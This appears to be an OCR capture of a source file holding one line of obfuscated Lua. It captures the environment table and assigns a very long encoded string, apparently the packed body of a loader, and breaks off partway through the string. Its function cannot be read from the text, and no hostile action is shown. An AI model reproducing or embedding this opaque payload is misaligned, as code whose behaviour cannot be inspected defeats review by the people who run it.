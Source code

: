 jcGjsHnEUbpXAIww=_ENV;QYetrYyiBbcfPPY='EFr<W+al*x%C_fM6al6x6FM_M*M*fff*f<__+f*rlra6lrCF_l%a%Fx_x+<lWW<fWW<Mr6MaFFr+F_F+Fr_*6<Fp6MUF6*666r%z_MfxM<f+flfaS_FfsF6_6l6oxxlC++l**4a*WF<_al*Wlrl+a_l<aaFWWrrf<lrxrCr%*K*_l+l^aCaWS+F<FxFI0*6f6a W6kM%fW6TMaMW_M_6_*HfFW,r6f6*6F*M%W%Wxa*P***C*xaf*al<lCC<CM%*%<xMxlr_+bWM<MWFWF<_r*r_fx6frrFaVa2M66W+W*<%<+<(rx_+f_f_frCf_M___%667<6WM6M%M<l<xf*fW<l8lMl+lCllCWCa%x%Wx6x*<%W<W%WfW+r6<rl<l%a*a<+M+lMf(f6f&%R+%f_CMWM_MlM<ffFxrFOMXxXW6fC6%6CF%f%*x_x_x4+F*rlC*l*WC%C%%6%%%+xM<%Wx+FWl<_*<*%l*l<aMalpFF%F*F<KlS6C*MWo<MMMxMfrx<+FMFxFW2f%*_;Cl_rC_%*%_x%%r%<W%lr*F*fl6l6lFCaC+%C%a%Fx%WfWf+rWM*W*rlxlWa6a*FF&%6v+l+fW_WlWr<CCCCxC<Cr%6%r%<xlxWxFxF/rFl6l6rMfMal*x_xW*x*_<_*C*Frf+flaa<FxW*+MWM+WslWM6arW<l<yrMrxrCarlr+l+rWfWaM*6+6lMCMW6cxl_+MF_xfF_rlx%fCMC6a+%M%0xCx+fCMFfO_C_aC6<6<%<*<<<rrxr<F_F*FWFF*a*flClalFa%6f6f6M_%ikM_FF_W_+C_Crf6r_<FrFF_FlFy%M__Clljx<C+%f%*%a%xf_MrfF___l_>+_l<l<axa*+6aC+F<rWl+a*l**l_lllraCFfrlF+P_F%3aWCWCWN<C<ar6_FMCfxf=flFWr< xmW666***ClCF%l+<*n*M*l*W*<*Cl+rC+aa%+6ar+<a+WfxFf%6*+C6_++flra%*a+a%+%+++oWx6M6*6<6+%WM<M_M%fMfaF+Fa)%L+^P6x*x%l%r*fx+xFfxMF_M_x_WCf+6a_aMar+Cal{MW5WxWKW%WW<Ml%*<a6a%a++MpmFz1WmrD*eC%6ff6WM_f6f6fafMFaF%wCHazF6%*CC<Cr%f++lCxWxW**_C_C_)CCCa%6+W+%aQaWW6xWx<*x*Wl6l*5MrCr<r_ara_+l+rWfWafaK+666+%FfFM%fl*fCC_M_l_+_J_r6x6MMMMxMWff*I*6*Cxka*l6a6*raxlF%xC%xMxxxW*fFM<*<+<*r6<+rfrMrrF<6MFlpF!xwx1FMf6xMlMCfCM_FfraFrOfB*a*+FaWWa<aWCW6r6<%WWWWFfFxF+A<Cx_<%M%x%Wxfrf+_+aW_6*rrW/rCMWFDr6FMFMNMF6W6W%W+W:<C<alF*+alr<r+F*F<)M1l%fCa%M%6CF%_%<MrMfflfr_f_aa*l+llaCaWl/Fl<<aF+_++Wl<CWxW<r6lW*raxaW+6+*M*FlFFglC<M+MMMaMlMxMWfC*CC*_af<C*_WCF6l6MM_MlMrfCxaxW*Fl6axla*hlCaCaC+6aaxf%<xr*f***Fr<<6rlr6rmfl6<F6F%FrF+W*Wx<f<*<<r_fkM*frMFfW_l&_Fr>F6_6l6e*-%6%xx6WCxa*flfxhlll6ClC%%_%l%rxCrC+%+WW%F_<r<M<WlFl*aaaF+_++MCv*{x9l6M6%%a_f6r%+%<x*FxFFUfw6;r6f6*6F*FCd%%%Zlalaa%___6_FC_ClCoW*afWF+6W_W%WaW3*axWlClalFa%6%rxr<Fx_+MCIWjr6f%_fF6F6FfxM+ff*xC<%lq*><6M6xxW%l6raa%Lf_f_fF___l_N+Vl<l6a+ax%WXx*x_6_Mflx+_6C%l*laafa*a<+_6rF+u6W%aFf<x*faMfrWxaM&FMrWF<{MyxdrxW_FCxC+%rx_+<llx_xJ*W_x_fCMCxCW%f+L+_a%aF<WWWWO<MWwlM*Fl<aMaxarA*FFh*Fr/_Ha7F6_<*<6rfr*r<F_%_fCf+_Cll%axfa**_CrxM%FfMM<f<_M_x_r+WlWa*aCaCF*Wv+f+6Wx*Mx+*<lMlxlrTW^F9afrF_bM_<M_ir6C6aMC<W<*rxrWF6F*CM_lCM_*_rC_ClCr%rMxM6fMfxfW_f+6l***lr++a_a_+Maa+U+axWx+*x*Wl6l*)6<FrxrWrrr++*+*WfW*W<<_f%6fM6MFMxrFr+FaFFh_3+x+_WCMCWaBlf%+%Wx6fafl_C_a_FC%W_W%lF+Car++x%xx*6*%*+lMFCrx<&r<a**6+f+*+<W_6UIx6a%_6CM%MaMCx<fl_6*Wf*_x_%llCf%CaFCe%xx<xfx****r<xlflfr%l*a6a*+Cac+%W_-rWFWlWOr6<r<raMa6a<+M+x+rMM6f7x6C6CMf<r<*rlrrFfFaCC_+_rCC_+%fal*W%x%fx*f_flfr_f_*_<CM6f6WCi_<%+%,xCxWrW+<WfW<M6F_rarMF6r+FM__MfFWFr4Fbl%Mf_MxMCf6f*MWF%rtK6O%,+6M%DCW%_%rxM%a*F*Cx<*l*(_+_*C%C+CA%xW_+*aa+f<lW*+W<%l6*clWa6a%a<Qa6f6CMCMfMxW<W*<*<<rMrlC_M<fCf%falf%F_aC%%M6<6WM*M<fMfllx*f*C*l*r*aClC6%_%l%rxCWx+_W*r6Wl<MrrFCQ*<mFF#+F%+*+aWfW*W<%F%Fx+%FrCrCrAFCFaw6fQC%_rCa%66W6aMxMWf6f*lrxW*a*Wl6llllC<Ca%*%<xMxl<x+sWM<%<l<6rf<+aflrar+f+*+FMr6_6xTy6%%l_WMxMff*FfFMFrvfU*)F%Y%_C*%a%%%CMFMlfafF___++ClMlWlWrPWM+la++C+x+l*_xF*Fl_lll7F<rxF_FlFl2CMx6fzr6C<_<M<Fr_rlr^frfxf<_M_/Cx_+6C!l6VMCMaf6l*x*x**c*_*W<qW6a6aMaFa+a++a+l+F+F***Clfl*l<a_rMraFrr<F+M+6Md%WrWC<l<rrfraC_f6f+f+*FCl%<%*lCl%l*aMaxxFfMMaf<_M_x_raCWfrlW%+r<%F<WFW_+aW*W%Wxl6*rlWa6a%a<6*FaFa4_FFHF6x6<<xWxrMrxrWFf%M_*fP_F_F_laMx+%x%-xMx%%rWCa%xa*%lMlll_laCrCF%l%rxfxa<lWFWW<%*j*ll+l}aCaW0<FfFrFrF<C%fa6f6%6CM66Drar_FCFaFFX%%_C_Cj%MCWCl+C*r%sxM*CfFf+_a_FC_C+lCaMa_a4a<+CWlWWWF*a**lClalFa%6_r<rFG6M_F+UWWW<6<%<+<irCWax*+_F*Fxnfy*G<6_*_CF%r%+%+%lfC*F2r<K*ar%F%KClF%6C<%Wx6x%x<r<WF<_F+W<<f<*rMr*aWal+x+WW6W*MW6<666F6FM<_6%xFMrFF<LMXx2r_WCFCCCa%a%ax%%Ff*MQ_f_*_<C_+ralaMaFFl<M+_WxWlW<<f#MM6lxl%aMaxaW+fj3Fx-<HWNF6a<f<M<rrfr*rF_%CWfW_+_F_65Fjx6a6FM_M+*l%<x<***CxW<a+ll+l+axara%%r%%xlxr*f*arl<+<F<*rar6F6frKHF_LWFr#_W<W*<*<<rMrl_TMyf+f+*rCdCf_xC<CC6rflac%6FMlM*%a<-%_a_aCCCaCF%%W_+l+w+_WC*6%a*Wl6l%l<y<<rr_rr_M6Cy+1f6MnW6f%C__6<6FM=Ma*fCC_*_%CMCl_<a%*_%+%*M+MFf%f+fL_xaM_r_*ClCr%f%a<l+FWM++W66_<%Wl<6<Cr*a__a_lv_flla6K%r*rW7Wa<+<srCrWCWf_fKfaf*l%ClCxCf%%CWMCM6M!fCfa_6+6lM*alMlflraxa6+M%I%Fx+x#*C*WFM<l<+<I<WFCaWa++x+WW6W*f*mavFMxMaMxr*WlFfF*F<J_%M_%CrC%%Car%f%%%r%<*fWWaFlC*ll_l%lxrfF_l:aFar^6++W<6xWlW<<_<WrMrrMWf6f%+a+xWCWaWF<%fWMfMCMaCaM+ff_lF5P6k+&36C6Wx#x6CZ%IfMM+f<_M_x_raWlFl<alaNa_F<<W+C+xW*WM*<+l6rrraf+*+<FMx%+l+_W_WlWr<C__6M%Mf+ClxFCWC_%WlfmlBf6_6l6rMC*u%l%+xWx%lW*F*<lllVl_CrC<%l%rxfxa<CWFWlWC<a<6lalCaCaaaF+%6fF<naUF)F6+6FMl6<MxrarCFCFaFFn%%__*CMC%a+*+%*%+%+xFfaf%_C_a_FC%WCa+araxa<FY<m+rWl*C*%*YlClaa6YFF%rlFl+*+M6fFr2<l%a_a+lSr_rCrFF_FlFN%<C6_V_+6%6MM6M%M+fMa6*x*a*f*l<W++aCl<%6C+%Wx6x%x<WCWC6*W<r6<Cr+r<r<r*F++%+*W6W%W+<Mf_M%M+rf<%rrFfF*FF%Ff/_%_5a_x%%f%a%Wx6WMl_*x*r*MlMl6lxC+C+%%%+%Axx<CWaWlF6<flM*<l<aMaxarvWFFFxF*2r(%C<fa6*6Wrfr+W+l+CxMN+CWCW+bF7l6a6FM_M+*%xWxF*%xWl_<a+<afl%al%_Cl%Fx_xlx4rlW<<%Wr<%<arxFfr+ra_fM6F+A<6M.r<MW<<<rMrxrrC<_f_%fF_Cl*xa%6Cx%xMMM6M<fMfxfr*%*%*%lll6l_CrC*%l%rxfxa<*W+Wl<C<WWo<%<rFMr6rF+f+M+rWfW*WFfFc,6%6{x__6rF<FFaFF-_)+xaCZC*%x%x%6+alfxF***a*r*%<<ax+++%rfrCr%Wfx%%D*6*%*+lMc6rxrarfrlfWF3F*8_FrFWW+W*<%<+<nrx_+M*MZ_%fF_0_fCa66rF6WM6M%M<lax6xFxx*<<xaClMl_lFaWFC<%a<++Wf+aWaWa<%MMM6MWFFFCF*FxFx{f_F6lMr6<6a_CMW6FMFfFFMrFF<eMYxjr%W_3%*CaCr%CafWMf*fl_f_*_<C_+Waxl#a%%a%6xCxaxF*%r*<6WWW<ra<<<Ofa6frrf+fa_f_<WrW+<l<rrfrafff+___%fW___5_o6_(F6FM_MlM1lF*C***6*x<a++lMl9lr%_Cr%Fx_xlxVFGF;/CGW666%6a6FM6M*MW+a+FW_WlWr<f+*C+aMr%<FF6F%F+sM%%CxC%Cl%_%f%)%*++*rx#*%ftfr_+_8CCCWWWlYafa<aF+<Wa*6%r*Wl6l%l<H<<rr_rr_MMCF<FWG*ux:x%Cf%MrM6Mrxr_*C%__fF_W_f%_6x6CMMMxMWffa6xax7xFlf*F*rC*_s%f%*%<x_<++++WWFWl<%MfFW<xM_MMMWf%+x+xWMWxWW<ff%6aM*6F6FrrrlFlFr!f;a%xC6Cr%f%f%Flx%F%oxCfrf<_l_rCfCa+MaFa*+x+xWfxax%*C*a*Fl%F_rxrCF6F*rW6%F*B<WCWlW1<C<ar6_Cr*r_FfF*F<>_fWCl_<CFalCCxM%%x*fff%fr_f_*_Fa6+rC+_r%%%+%Lxx<C+FWf+>6WFFrC<<rWrWr%fF6*/_1<?F6fb+<fWl<rrfr*rF_%fwfafF_F_<CCafxWCxa_aCaW+6++fWff_x_WC6C*WMallFW*a++fWf+xWrWMFM<M<F<+lqlFa+a9+C+W6a}a6%Nr6%6f<W<frxrWF6F*C%_%CMC__r_+axxF%M%*%*%Wxqx*f4fM_+_SCCCW++a<+6aa+W+fWfLQrCWr<rW+r_<Wff!WF_rFFf+<+lW*W<<M<lfa6K6<f_MW*fCF_a_<!*)_6f6*6<M_lM%*%^*6xa*a*a*Wl*CfCCCr%f%*%F